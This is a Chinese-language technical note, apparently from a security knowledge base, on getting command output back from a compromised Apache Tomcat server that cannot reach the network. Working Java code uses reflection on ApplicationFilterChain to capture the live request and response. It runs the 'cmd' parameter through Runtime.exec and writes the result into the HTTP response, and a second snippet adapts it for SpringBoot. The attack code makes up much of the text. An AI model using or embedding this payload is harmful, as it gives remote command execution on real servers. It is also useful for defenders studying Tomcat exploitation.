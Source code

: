 适用条件：不出网，无法外带数据，需要将命令或代码执行结果显示出来。

`Tomcat`下有个类`org.apache.catalina.core.ApplicationFilterChain`，这个类存放着过滤器链`ApplicationFilterConfig[]`

```java
/*
Implementation of javax.servlet.FilterChain used to manage the execution of a set of filters for a particular request. When the set of defined filters has all been executed, the next call to doFilter() will execute the servlet's service() method itself.
*/
public final class ApplicationFilterChain implements FilterChain {
    private static final ThreadLocal<ServletRequest> lastServicedRequest;
    private static final ThreadLocal<ServletResponse> lastServicedResponse;

    static {
        if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
            lastServicedRequest = new ThreadLocal<>();
            lastServicedResponse = new ThreadLocal<>();
        } else {
            lastServicedRequest = null;
            lastServicedResponse = null;
        }
    }
}
```

类初始化时若开启了`WRAP_SAME_OBJECT`，会设置一个线程本地变量来存储`ServletRequest`和`ServletResponse`的变量副本。

默认`WRAP_SAME_OBJECT`是关闭的，需要设置系统属性`org.apache.catalina.core.ApplicationDispatcher.WRAP_SAME_OBJECT`或`org.apache.catalina.STRICT_SERVLET_COMPLIANCE`为true来开启。

这个类下`internalDoFilter`经过一系列过滤器的`doFilter`调用后，最后调用servlet的service方法。而切换到servlet需要把ServletRequest和ServletResponse传给servlet，最后servlet会把返回信息写入ServletResponse

![image-20231201130826800](./../.gitbook/assets/image-20231201130826800.png)

若这里开启了`WRAP_SAME_OBJECT`，相当于做了一个全局的`ServletRequest`和`ServletResponse`备份，我们就可以在执行Servlet的service方法时拿到这两个对象了。前者可以获取命令参数，后者可以写入命令执行的结果。

因此我们通过反射修改`WRAP_SAME_OBJECT`为true，由于这个字段被final修饰，需要修改其访问修饰符。

```java
try {
    Field WRAP_SAME_OBJECT = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
    Field lastServicedRequest = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
    Field lastServicedResponse = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");

    Field modifiers = Field.class.getDeclaredField("modifiers");
    modifiers.setAccessible(true);
    modifiers.setInt(WRAP_SAME_OBJECT, WRAP_SAME_OBJECT.getModifiers() & ~Modifier.FINAL);
    modifiers.setInt(lastServicedRequest, lastServicedRequest.getModifiers() & ~Modifier.FINAL);
    modifiers.setInt(lastServicedResponse, lastServicedResponse.getModifiers() & ~Modifier.FINAL);

    WRAP_SAME_OBJECT.setAccessible(true);
    lastServicedRequest.setAccessible(true);
    lastServicedResponse.setAccessible(true);

    boolean on = WRAP_SAME_OBJECT.getBoolean(null);

    if (!on || lastServicedRequest.get(null) == null || lastServicedResponse.get(null) == null) {
        lastServicedRequest.set(null, new ThreadLocal<ServletRequest>());
        lastServicedResponse.set(null, new ThreadLocal<ServletResponse>());
        WRAP_SAME_OBJECT.set(null, true);
    } else {
        ThreadLocal<ServletResponse> response = (ThreadLocal<ServletResponse>) lastServicedResponse.get(null);
        ThreadLocal<ServletRequest> request = (ThreadLocal<ServletRequest>) lastServicedRequest.get(null);

        String cmd = request.get().getParameter("cmd");
        if (cmd != null) {
            ServletResponse servletResponse = response.get();
            Writer writer = servletResponse.getWriter();
            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            byte[] b = new byte[1024];
            int a = -1;
            while ((a = inputStream.read(b)) != -1) {
                baos.write(b, 0, a);
            }
            writer.write(new String(baos.toByteArray()));
            writer.flush();
        }
    }
} catch (Exception e) {
    e.printStackTrace();
}
```

需要执行两次，第一次开启`WRAP_SAME_OBJECT`，给`lastServicedRequest`和`lastServicedResponse`初始化。第二次才真正执行命令并返回。

在SpringBoot下，上面的代码会报错

原因在`org.apache.catalina.connector.Response#getOutputStream`

![image-20231201143437925](./../.gitbook/assets/image-20231201143437925.png)

这里`usingWriter`为`true`，而在我们代码中往response写数据时，通过`ServletResponse.getWriter().write()`写入

`getWriter`设置了`usingWriter`为`true`

![image-20231201143706114](./../.gitbook/assets/image-20231201143706114.png)

因此我们在`getWriter()`操作后，用反射修改`usingWriter`为false即可

```java
Field f = servletResponse.getClass().getDeclaredField("response");
f.setAccessible(true);
Response res = (Response) f.get(servletResponse);
Field usingWriter = res.getClass().getDeclaredField("usingWriter");
usingWriter.setAccessible(true);
usingWriter.setBoolean(res, false);
```